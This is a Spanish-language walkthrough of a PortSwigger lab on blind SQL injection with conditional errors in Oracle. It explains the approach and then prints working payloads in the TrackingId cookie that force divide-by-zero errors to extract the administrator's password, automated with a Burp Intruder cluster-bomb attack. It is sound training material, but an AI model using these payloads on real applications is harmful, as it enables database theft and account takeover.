








# Write-up - PortSwigger SQLi Lab 11

Voy a hacer un laboratorio de Port Swigger. El lab 11 de SQLi (En esta url: https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors)

## Descripción: Tradúcela al Español

**Lab: Blind SQL injection with conditional errors**

**Traducción al Español:**

**Laboratorio: inyección SQL ciega con errores condicionales.**

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

**Traducción:**
Este laboratorio contiene una vulnerabilidad de inyección SQL ciega. La aplicación utiliza una cookie de seguimiento (`tracking`) para análisis, y ejecuta una consulta SQL que incluye el valor de la cookie enviada.

The results of the SQL query are not returned, and the application does not respond differently depending on whether the query returns any rows. However, if the SQL query causes an error, the application returns a custom error message.

**Traducción:**
Los resultados de la consulta SQL no se devuelven, y la aplicación no responde de forma diferente dependiendo de si la consulta devuelve filas o no. Sin embargo, si la consulta SQL provoca un error, la aplicación devuelve un mensaje de error personalizado.

The database contains another table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

**Traducción:**
La base de datos contiene otra tabla llamada `users`, con columnas llamadas `username` y `password`. Debes explotar la vulnerabilidad de inyección SQL ciega para descubrir la contraseña del usuario `administrator`.

To solve the lab, log in as the administrator user.

**Traducción:**
Para resolver el laboratorio, inicia sesión como el usuario `administrator`.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

## 1. CONTEXTO DEL LAB

La app:

- **NO** muestra resultados de la query
- **NO** cambia si hay datos o no
- **SOLO** cambia si hay **ERROR**

### Traducción directa

Antes:

- TRUE → Welcome back
- FALSE → nada

Ahora:

- TRUE → nada
- FALSE → nada
- ERROR → cambia la respuesta

**SOLO puedes usar errores**

---

## 2. NUEVO OBJETIVO

Ya no puedes hacer:

```sql
AND 1=1
```

porque:

- la app **NO** muestra resultados
- no cambia la respuesta visible

Entonces haces esto:

> “voy a provocar errores SOLO cuando algo sea TRUE”

---

## 3. EL TRUCO: convertir la DB en un interruptor

```sql
CASE WHEN (condición) THEN 1/0 ELSE 'a' END
```

Si condición = FALSE

```sql
ELSE 'a'
```

=> todo OK → `200`

Si condición = TRUE

```sql
THEN 1/0
```

=> división por 0 → 💥 ERROR → `500`

### YA TIENES UN IF

| Condición | Resultado |
|---|---|
| FALSE | página normal |
| TRUE | error |

---

## 4. TU PRUEBA EXPLICADA BIEN

### PRUEBA FALSA

```sql
1=2
```

entra en `ELSE` → `'a'`

`'a' = 'a'` → válido => `200 OK`

### PRUEBA VERDADERA

```sql
1=1
```

entra en `THEN` → `1/0` => 💥 error => `500`

💥 **ESTO ES EL “INTERRUPTOR”**

No ves datos, ves comportamiento.

---

## 5. AHORA LO IMPORTANTE: EXTRACCIÓN

```sql
SUBSTRING(password,1,1) > 'm'
```

### Traducción

“¿la primera letra de la contraseña es mayor que `m`?”

### Flujo completo

```sql
CASE WHEN (
    username='administrator' 
    AND SUBSTRING(password,1,1) > 'm'
)
THEN 1/0
ELSE 'a'
END
```

Si es TRUE => 💥 error → `500`

sabes que: la letra > `m`

Si es FALSE => `200 OK`

sabes que: la letra ≤ `m`

---

## 6. ¿Qué estás haciendo realmente?

**NO** estás viendo la contraseña.

Estás haciendo preguntas de sí/no.

### Ejemplo real

- ¿letra > m? → sí → error
- ¿letra > t? → no → OK
- ¿letra > p? → sí → error

vas acotando => **ES COMO UN JUEGO tipo “adivina el número”**

---

## 7. POR QUÉ YA NO FUNCIONA `AND 1=1`

Porque:

- antes: la app mostraba resultados
- ahora: la app **NO** muestra nada

entonces:

- `AND 1=1` no cambia lo que ves

**PERO ESTO SÍ**:

```sql
THEN 1/0
```

cambia el comportamiento del servidor.

### FRASE QUE TE LO RESUME TODO

**No estás sacando datos.**
**Estás forzando errores para hacer preguntas binarias a la base de datos.**

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

## Parámetro vulnerable -> Tracking Cookie

## Objetivos

- Obtener contraseña del administrador
- Login como usuario administrador

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

## 1 - Comprobar que el parámetro TrackingId es vulnerable

### Objetivo real

Saber si puedes inyectar SQL en el parámetro `TrackingId`.

### PRIMER TEST (el típico)

```sql
' AND 1=1--
```

Esto prueba:

- si puedes cerrar la comilla `'`
- si puedes meter lógica (`AND`)
- si puedes comentar (`--`)

### ¿Qué significa si funciona?

Que la query original se está rompiendo y puedes modificarla.

Pero en **ESTE laboratorio** esto **NO** sirve del todo porque:

- la app **NO** muestra resultados
- no ves diferencia entre TRUE y FALSE

### ENTONCES necesitas otro tipo de prueba

Aquí entra esto:

```sql
'|| (select '') || '
```

### ¿Qué estás probando con esto?

**NO** estás intentando:

- cambiar resultados
- sacar datos

Estás comprobando:

> ¿puedo ejecutar una subquery dentro del valor?

### Vamos a verlo claro

Query original:

```sql
WHERE TrackingId = 'xyz'
```

Payload:

```sql
xyz'||(SELECT '')||'
```

queda:

```sql
WHERE TrackingId = 'xyz' || (SELECT '') || ''
```

### Qué pasa aquí

```sql
(SELECT '') devuelve ''
```

```sql
'xyz' || '' || '' = 'xyz'
```

resultado final:

```sql
WHERE TrackingId = 'xyz'
```

=> **NO cambia nada, NO rompe nada**

### PERO LO IMPORTANTE

Has metido esto:

```sql
SELECT ''
```

dentro de la query.

### ¿Cómo sabes si funciona?

- Si da error => tu SQL **NO** es válido
- Si **NO** da error => tu SQL **SÍ** se está ejecutando

### AQUÍ ENTRA ORACLE

Esto falla:

```sql
(select '')
```

porque Oracle exige:

```sql
SELECT ... FROM tabla
```

Entonces pruebas:

```sql
(select '' from dual)
```

`DUAL` = tabla especial de Oracle.

### INTERPRETACIÓN

| Resultado | Significa |
|---|---|
| ❌ error sin DUAL | probablemente Oracle |
| ✅ funciona con DUAL | confirmas Oracle |
| ❌ error con tabla falsa | se ejecuta SQL real |

No estás explotando nada aún.

Estás comprobando que puedes ejecutar SQL válido dentro del parámetro.

### RESUMEN ULTRA SIMPLE

Paso 1 = testear la inyección

- `' AND 1=1` → rompe lógica (básico)
- `'|| SELECT` → prueba ejecución real SQL
- `DUAL` → identifica Oracle

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

## 2 - Confirmar que la tabla `users` existe en la bbdd

Uso `ROWNUM` en caso de ORACLE. => `LIMIT 1`

```sql
' || (select '' from users where rownum=1) || '
```

### Escenario A: La tabla `USERS` no existe

```sql
' || (select '' from pepe where rownum=1) || '
```

Salta un error al no encontrar la tabla con el nombre de `"PEPE"`.

### Escenario B: La tabla `Users` existe

```sql
' || (select '' from users where rownum=1) || '
```

```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'xyz' || '' || ''
```

`200 OK` -> La tabla `Users` existe en la bbdd.

### PASO 2 — ¿Qué estás intentando hacer?

Objetivo:

Saber si la tabla `users` existe en la base de datos.

### IMPORTANTE: CAMBIO DE CHIP

En este laboratorio:

- ❌ no ves datos
- ❌ no ves resultados
- ✅ solo ves error o no error

Entonces tu pregunta real es:

> “Si intento usar la tabla `users`, ¿la base de datos se rompe o no?”

### EL PAYLOAD

```sql
'|| (select '' from users where rownum=1) ||
```

### Vamos parte por parte

```sql
(select '' from users ...)
```

=> estás diciendo:

> “quiero hacer un SELECT desde la tabla users”

```sql
rownum=1
```

=> importante en Oracle

significa:

> “solo dame 1 fila”

### ¿Por qué?

Porque si devuelve muchas filas: 💥 rompe la concatenación

### AHORA LOS DOS ESCENARIOS

#### ❌ ESCENARIO A — la tabla NO existe

```sql
(select '' from pepe where rownum=1)
```

la DB intenta: `SELECT` desde una tabla que no existe

💥 ERROR

Resultado:

`500 ERROR`

#### ✅ ESCENARIO B — la tabla SÍ existe

```sql
(select '' from users where rownum=1)
```

la DB encuentra la tabla ✔️

=> ejecuta: `select ''` => devuelve: `''`

👉 concatenación:

```sql
'xyz' || '' || '' = 'xyz'
```

✔️ todo bien

👉 Resultado: `200 OK`

### 💥 INTERPRETACIÓN

| Resultado | Significa |
|---|---|
| 500 error | tabla NO existe |
| 200 OK | tabla SÍ existe |

### LO QUE REALMENTE ESTÁS HACIENDO

No estás “viendo la tabla”.

👉 estás preguntando:

> “¿puedo hacer SELECT sobre users sin romper la DB?”

### POR QUÉ FUNCIONA

Porque:

- si la tabla existe → SQL válido → no error
- si no existe → SQL inválido → error

### FRASE CLAVE

**No estás leyendo la tabla.**
**Estás comprobando si puedes usarla sin que la base de datos falle.**

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

## 3 - Confirmar que el usuario Administrator existe en la tabla users

`TO_CHAR()` -> `TO_CHAR(1/0)`

```sql
' || (select '' from users where username='administrator') || '
```

```sql
' || (select CASE WHEN (1=0) THEN TO_CHAR(1/0) ELSE '' END FROM DUAL) || '
```

```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'xyz' || (select CASE WHEN (1=0) THEN TO_CHAR(1/0) ELSE '' END FROM DUAL) || '
```

-> LA BBDD NOS DEVUELVE UN VALOR NULO -> `200 OK`

```sql
' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM DUAL) || '
```

-> LA BBDD ARROJA UN ERROR -> `ERROR 500`

```sql
' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator') || '
```

-> BBDD ARROJA ERROR `500` entra por la rama del `1=1`.

```sql
' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='pepe') || '
```

-> BBDD devuelve `NULL`, no encuentra el usuario `pepe` en la bbdd -> `200 OK`

### PASO 3 — ¿Qué estás intentando hacer?

Objetivo:

Comprobar si existe el usuario `administrator` dentro de la tabla `users`.

### CAMBIO CLAVE

En el paso 2 preguntabas:

👉 “¿existe la tabla?”

Ahora preguntas:

👉 “¿existe ESTE registro dentro de la tabla?”

### PAYLOAD BASE

```sql
'|| (select '' from users where username='administrator') || '
```

### ¿Qué hace esto?

La base de datos intenta:

```sql
SELECT '' FROM users WHERE username='administrator'
```

### DOS CASOS

#### CASO A — el usuario NO existe

la query devuelve: `(empty set)`

resultado:

```sql
(select '' from users where username='pepe')
```

devuelve `NULL` / vacío

concatenación sigue funcionando:

```sql
'xyz' || '' || '' = 'xyz'
```

✔️ `200 OK`

#### CASO B — el usuario SÍ existe

la query devuelve: `''`

también parece válido… **PERO** aquí hay un problema:

👉 **NO** puedes distinguir entre:
- “no existe”
- “sí existe”

👉 porque ambos → `200 OK`

### 💥 PROBLEMA

👉 No puedes ver diferencia

👉 necesitas un interruptor

### 🔥 SOLUCIÓN: FORZAR ERROR CON `CASE`

Aquí entra esto:

```sql
'|| (select CASE WHEN (...) THEN TO_CHAR(1/0) ELSE '' END FROM dual) || '
```

### ¿Qué hace esto?

Convierte tu pregunta en:

> “si esto es TRUE → rompe la DB”

### AHORA TU PAYLOAD REAL

```sql
'|| (
  select CASE 
    WHEN (1=1) 
    THEN TO_CHAR(1/0) 
    ELSE '' 
  END 
  FROM dual
) || '
```

Si condición TRUE

👉 ejecuta: `1/0`

💥 ERROR → `500`

Si condición FALSE

👉 devuelve: `''`

✔️ `200 OK`

### AHORA LO APLICAS AL USUARIO

```sql
'|| (
  select CASE 
    WHEN (username='administrator') 
    THEN TO_CHAR(1/0) 
    ELSE '' 
  END 
  FROM users
) || '
```

### LO QUE REALMENTE ESTÁS HACIENDO

👉 No estás viendo datos

👉 estás preguntando: “¿existe este usuario?” → sí/no

### FRASE CLAVE

**Has convertido una consulta en una pregunta binaria usando errores.**

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

## 4 - CONOCER LA LONGITUD DE LA CONTRASEÑA

Evaluamos si el número de caracteres de la contraseña `administrator` es `>50`.

```sql
' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator' AND LENGTH(password)>50) || '
```

BBDD -> Devuelve `200 OK`

La contraseña que buscamos es inferior a `50`.

```sql
' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator' AND LENGTH(password)>1) || '
```

BBDD -> Nos arroja error `500`

LUEGO LA LONGITUD DE LA CONTRASEÑA ES `1<CONTRASEÑA<50`

### LANZAMOS PAYLOAD DE BURPSUITE

Observamos que en el carácter `19` obtenemos status code `500`

Carácter `20` ya pasa a `200`

**Contraseña>19** pero no es **Contraseña>20** por lo que el número exacto de caracteres de la contraseña es de **20**

### PASO 4 — ¿Qué estás intentando hacer?

Ya sabes dos cosas:

- la tabla `users` existe
- el usuario `administrator` existe

Ahora quieres saber: cuántos caracteres tiene la contraseña de `administrator`

### IMPORTANTE

Sigues en el mismo escenario:

- ❌ no ves resultados de la query
- ❌ no ves la contraseña
- ✅ solo ves `200 OK` o `500 Error`

Así que otra vez conviertes la base de datos en un interruptor.

### Payload base

```sql
' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END 
from users where username='administrator' AND LENGTH(password)>50) || '
```

### Qué significa esto

La parte importante es esta:

```sql
LENGTH(password)>50
```

Lo que preguntas es:

> “¿La contraseña del usuario `administrator` tiene más de 50 caracteres?”

### Cómo lo evalúa la base de datos

La subconsulta hace esto:

```sql
SELECT CASE 
  WHEN (1=1) 
  THEN TO_CHAR(1/0) 
  ELSE '' 
END
FROM users
WHERE username='administrator' AND LENGTH(password)>50
```

### Qué pasa si la condición es FALSA

Si la contraseña no mide más de 50:

```sql
username='administrator' AND LENGTH(password)>50
```

no encuentra ninguna fila

Entonces la subconsulta no entra en la rama del error y la app responde normal:

✅ `200 OK`

### Qué pasa si la condición es VERDADERA

Si la contraseña sí mide más de ese número, entonces sí hay fila para `administrator` y se evalúa el `CASE`:

```sql
WHEN (1=1) THEN TO_CHAR(1/0)
```

=> eso fuerza un error

💥 `500 Error`

### Interpretación

| Pregunta | Respuesta de la app | Significado |
|---|---|---|
| LENGTH(password)>50 | 200 OK | No, no es mayor que 50 |
| LENGTH(password)>1 | 500 Error | Sí, es mayor que 1 |

### Entonces, ¿qué haces de verdad?

Vas probando números:

- `>1`
- `>2`
- `>3`
- `>4`
- ...

hasta que deje de dar error.

### Ejemplo real

Si pruebas:

```sql
LENGTH(password)>19
```

y da:

💥 `500`

Entonces sabes: la contraseña mide más de 19

Si luego pruebas:

```sql
LENGTH(password)>20
```

y da:

✅ `200`

Entonces sabes: la contraseña **NO** mide más de 20

🎯 **Conclusión**

Si:

- `>19` es TRUE
- `>20` es FALSE

entonces la longitud exacta es:

```text
20
```

### Frase clave

**No estás viendo la longitud.**
**La estás acotando con preguntas de sí/no hasta encontrar el valor exacto.**

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

## 5 - CONOCER DEL USUARIO ADMINISTRADOR

`SUBSTR(password,1,1)`

**secreto**

```sql
' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator' AND SUBSTR(password,1,1) = 'a') || '
```

Realizamos el bruteforceo con el payload de **CLUSTERBOMB**

### Vamos con el PASO 5

Aquí ya no preguntas por la longitud.

Ahora preguntas:

> “¿Qué carácter hay en cada posición de la contraseña?”

### Objetivo del paso 5

Ya sabes que la contraseña tiene 20 caracteres.

Ahora quieres descubrir, por ejemplo:

- carácter 1
- carácter 2
- carácter 3
- …
- hasta el 20

### Herramienta clave: `SUBSTR`

En Oracle:

```sql
SUBSTR(password,1,1)
```

significa:

> “dame 1 carácter de password, empezando en la posición 1”

### Ejemplo

Si la contraseña fuera:

```text
secreto
```

Entonces:

```sql
SUBSTR(password,1,1)
```

👉 devuelve: `s`

Y:

```sql
SUBSTR(password,2,1)
```

👉 devuelve: `e`

### Payload base

```sql
' || (
  select CASE 
    WHEN SUBSTR(password,1,1) = 'a' 
    THEN TO_CHAR(1/0) 
    ELSE '' 
  END
  FROM users
  WHERE username='administrator'
) || '
```

### Qué pregunta estás haciendo aquí

La pregunta es:

> “¿La primera letra de la contraseña es una `a`?”

### Cómo responde la base de datos

Si la primera letra **ES** `a`

Entonces:

```sql
SUBSTR(password,1,1) = 'a'
```

👉 TRUE

Entonces el `CASE` entra en:

```sql
TO_CHAR(1/0)
```

👉 💥 error

respuesta de la app: `500 Error`

Si la primera letra **NO ES** `a`

Entonces la condición es FALSE y ejecuta:

```sql
ELSE ''
```

todo va bien

respuesta de la app: `200 OK`

### Interpretación

| Respuesta | Significa |
|---|---|
| 500 Error | sí, el carácter es `a` |
| 200 OK | no, no es `a` |

### Entonces, ¿qué haces?

Pruebas muchas letras para una misma posición:

- a
- b
- c
- …
- z
- 0
- …
- 9

Hasta que una de ellas provoque el error.

La que provoque el error es el carácter correcto.

### Ejemplo real

Si haces esto para la posición 1:

- `SUBSTR(password,1,1) = 'a'` 👉 `200`
- `SUBSTR(password,1,1) = 'b'` 👉 `200`
- `SUBSTR(password,1,1) = 'c'` 👉 `500`

Entonces sabes: el primer carácter es `c`

Luego repites para la posición 2

Cambias esto:

```sql
SUBSTR(password,1,1)
```

por esto:

```sql
SUBSTR(password,2,1)
```

Y vuelves a probar:

- a
- b
- c
- …

Hasta encontrar el segundo carácter.

Y así hasta completar la contraseña.

### Posiciones

- 1
- 2
- 3
- …
- 20

Cada posición la descubres con el mismo método:

probar un valor y mirar si hay `200` o `500`

### Frase clave

**No estás viendo la contraseña.**
**Estás comprobando letra por letra cuál provoca el error.**

### Qué hace Burp Intruder aquí

Porque hacerlo a mano es pesado.

Entonces en Burp marcas esta parte:

```sql
'§a§'
```

Y le dices:

prueba automáticamente:

- a-z
- 0-9

Luego miras qué payload da `500`.

Ese es el carácter correcto para esa posición.

### Resumen del paso 5

Coges una posición concreta, por ejemplo la 1.

Usas `SUBSTR(password,1,1)`.

Comparas con letras/números posibles.

Cuando una comparación da `500`, ya sabes el valor.

Repites para la siguiente posición.

### Resultado final

Al terminar este paso, reconstruyes la contraseña completa del usuario `administrator`.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

## Vamos a llevar a cabo esto de forma práctica

Le damos a empezar laboratorio y se nos abre la siguiente página web:

`https://0a3300a70360e4b980f4121900ce0040.web-security-academy.net/`

La página web tiene el aspecto de la imagen 1.


**Referencia a la imagen 1:** Vista inicial del laboratorio. La aplicación parece una tienda normal, pero la vulnerabilidad está en una cookie de tracking, no en un parámetro visible de la URL o del formulario.

Una vez dentro, abrimos burpsuitepro y en el navegador activamos el FoxyProxy para que en el HTTP History vayan apareciendo las distintas Requests mientras navegamos por la página. Como ya nos da pistas la descripción del laboratorio, tenemos una cookie de rastreo que la aplicación usa internamente para hacer una consulta SQL.

Para ello, nos vamos a la categoria de Pets => `https://0a3300a70360e4b980f4121900ce0040.web-security-academy.net/filter?category=Pets`

y capturamos la petición de burpsuite:

```http
GET /filter?category=Pets HTTP/1.1
```

y la enviamos al Repeater:

```http
GET /filter?category=Pets HTTP/1.1
Host: 0a3300a70360e4b980f4121900ce0040.web-security-academy.net
Cookie: TrackingId=0FxSHtWxTXu4SUXi; session=nLCNp4G3SbviQqFU2XtcueZD84p9RrsP
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive
```

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

Efectivamente tenemos la cookie de la que hemos hablado antes:

```http
Cookie: TrackingId=0FxSHtWxTXu4SUXi;
```

Ahora vamos a ver si es vulnerable a esto que hemos explicado.

### Probamos sin `DUAL`

```http
Cookie: TrackingId=0FxSHtWxTXu4SUXi' || (select '') || ';
```

y le enviamos a send:

Nos devuelve:

```http
HTTP/2 500 Internal Server Error
```

### Ahora para ver si es Oracle, probamos con `DUAL`

```http
Cookie: TrackingId=0FxSHtWxTXu4SUXi' || (select '' from DUAL) || '
```

y le enviamos a send:

Nos devuelve:

```http
HTTP/2 200 OK
```

Por tanto, efectivamente es vulnerable y es de tipo **Oracle**.

---

## Paso 2 práctico: Confirmar que la tabla `users` existe en la bbdd

Probamos a poner:

```http
Cookie: TrackingId=0FxSHtWxTXu4SUXi' || (select '' from users where rownum=1) || ';
```

y le damos a send:

Nos devuelve:

```http
HTTP/2 200 OK
```

Confirmamos que existe.

### Por qué

si probamos cualquier otro nombre de tabla random, tipo `madafaka`, vemos:

```http
Cookie: TrackingId=0FxSHtWxTXu4SUXi' || (select '' from madafaka where rownum=1) || ';
```

Nos devuelve:

```http
HTTP/2 500 Internal Server Error
```

---

## Paso 3 práctico

Para ello, probamos a meter:

```http
Cookie: TrackingId=0FxSHtWxTXu4SUXi' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator') || ';
```

Si existe, debe sacar error:

```http
HTTP/2 500 Internal Server Error
```

=> Efectivamente.

Por si acaso, sabemos que `pepon` no va a existir, si lo cambiamos por `pepon`:

```http
Cookie: TrackingId=0FxSHtWxTXu4SUXi' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='pepon') || ';
```

Nos devuelve:

```http
HTTP/2 200 OK
```

=> Por tanto, nuestro planteamiento es correcto.

Y confirmamos que existe el usuario `administrator`, ya que si es verdadero forzamos a que dé error y si no, forzamos a que devuelva OK.

---

## Paso 4 práctico

Para ello, probamos a meter lo siguiente para ver si la contraseña es efectivamente de mayor longitud que 1:

```http
Cookie: TrackingId=0FxSHtWxTXu4SUXi' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator' AND LENGTH(password)>1) || '
```

Nos devuelve `HTTP/2 500 Internal Server Error`, por tanto sí lo es.

y esto, al devolvernos `200 OK`, nos confirma que es menor que 50:

```http
Cookie: TrackingId=0FxSHtWxTXu4SUXi' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator' AND LENGTH(password)>50) || ';
```

### Fuerza bruta de longitudes con Intruder

Para saber su longitud exacta, vamos a hacer fuerza bruta de longitudes.

Para ello, enviamos la petición al Intruder:

En la imagen 2 vemos que ponemos como parámetro sobre el que hacer fuerza bruta el `1` de la longitud.



**Referencia a la imagen 2:** Selección del parámetro numérico que corresponde al umbral de longitud dentro de `LENGTH(password)>§1§`.

y configuramos como fuerza bruta tipo **Number** desde 1 hasta 50 (imagen 3) y le damos a **Start Attack**:



**Referencia a la imagen 3:** Configuración del payload numérico secuencial de 1 a 50 para encontrar el tamaño exacto del password.

Vemos que la última que cumple la condición es el número `19` y por tanto la última que devuelve `500` en status y `20` ya devuelve `200`. (imagen 4).



**Referencia a la imagen 4:** Resultado del ataque de Intruder. Aquí se ve que hasta 19 se obtiene error y a partir de 20 la respuesta deja de generar fallo.

Por tanto, esto nos dice que la longitud de la contraseña es de **20** exactamente.

---

## Paso 5 práctico: adivinar exactamente la contraseña

Para ello seguimos en Intruder con dicha petición y vamos a cambiar la variable de fuerza bruta por dos variables de fuerza bruta: una de tipo número y otra de abecedario.

Ponemos:

```http
Cookie: TrackingId=0FxSHtWxTXu4SUXi' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator' AND SUBSTR(password,1,1) = 'a') || ';
```

y le damos a **Cluster Bomb Attack**.

En la imagen 5, observamos que la primera variable de fuerza bruta es el segundo argumento de la función `SUBSTR`.



**Referencia a la imagen 5:** Marcado del primer punto de inserción: la posición del carácter dentro de `SUBSTR(password,§1§,1)`.

En la imagen 6 observamos que lo configuramos de tipo numérico de 1 a 20 para los 20 carácteres de la contraseña sobre los que vamos a hacer en particular fuerza bruta.



**Referencia a la imagen 6:** Configuración numérica de la primera variable del Cluster Bomb: posiciones del 1 al 20.

La segunda variable es la `a` (imagen 7).


**Referencia a la imagen 7:** Marcado del segundo punto de inserción: el carácter candidato que será comparado contra cada posición del password.

Y de tipo **Brute Forcer** de Min y Max Length `1` ambos (imagen 8) y le damos a **Start Attack**:



**Referencia a la imagen 8:** Configuración del segundo payload del Cluster Bomb con caracteres alfanuméricos de longitud exactamente 1.

y filtramos por **status code**, los de `500` son las letras acertadas, los `200` son los fallos.

De hecho, en la imagen 9, vemos que el `Payload 1` es de 1 a 20 y todos distintos para los Status `500`. En el `Payload 2` obtenemos los caracteres correctos.



**Referencia a la imagen 9:** Tabla de resultados del ataque Cluster Bomb. Las combinaciones que producen `500` indican el carácter correcto para cada posición del password.

Reconstruyéndolo obtenemos la contraseña:

```text
1sxblnagik02150j5j43
```

---

## Login final como `administrator`

Vamos al panel de login en **My account** y completamos los campos con las credenciales:

- `administrator`
- `1sxblnagik02150j5j43`

y nos accede al panel `administrator` diciéndonos además que el laboratorio está resuelto (imagen 10)



**Referencia a la imagen 10:** Panel del usuario `administrator` y banner final que confirma que el laboratorio ha sido resuelto correctamente.

---

## Resumen técnico completo del proceso

En este laboratorio explotamos una **Blind SQL Injection con errores condicionales**.

La diferencia clave con la blind basada en respuestas visibles es que aquí:

- TRUE -> no cambia nada
- FALSE -> no cambia nada
- ERROR -> cambia la respuesta

Por eso la técnica consiste en forzar errores solo cuando una condición es verdadera.

La herramienta clave ha sido:

```sql
CASE WHEN (condición) THEN TO_CHAR(1/0) ELSE '' END
```

Con esa estructura hemos conseguido:

1. confirmar que `TrackingId` es vulnerable
2. confirmar Oracle usando `DUAL`
3. confirmar la existencia de la tabla `users`
4. confirmar la existencia del usuario `administrator`
